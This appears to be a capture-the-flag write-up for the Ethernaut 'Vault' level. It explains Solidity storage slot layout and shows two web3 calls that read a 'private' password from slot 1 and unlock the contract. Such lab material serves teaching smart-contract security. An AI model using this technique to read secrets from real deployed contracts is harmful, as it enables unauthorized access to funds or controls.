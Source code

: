 # Vault

> Everything you use in a smart contract is publicly visible, even local variables and state variables marked "private".

#### How variables store in the storage layout

-   each slot store up to 32 bytes
-   stores only variables, not constant
-   variables store in slot from right to left
-   if the size of the variable does not fit for the remaining size of the slot, it will goes in the next new slot

#### Attack

There are two variables in the contract

```
  bool public locked;
  bytes32 private password;
```

-   bool locked is declared first and it takes 1 byte of slot index 0
-   bytes32 password is 32 bytes so it need a full slot so it goes in the next slot at index 1

-   get storage slot 1

```javascript
const slot1 = await web3.eth.getStorageAt(contract.address, 1)
```

-   unlock the vault

```javascript
await contract.unlock(slot1)
```

---

-   https://docs.soliditylang.org/en/v0.8.17/security-considerations.html
-   https://kubertu.com/blog/solidity-storage-in-depth/
-   https://medium.com/coinmonks/how-to-read-private-variables-in-contract-storage-with-truffle-ethernaut-lvl-8-walkthrough-b2382741da9f
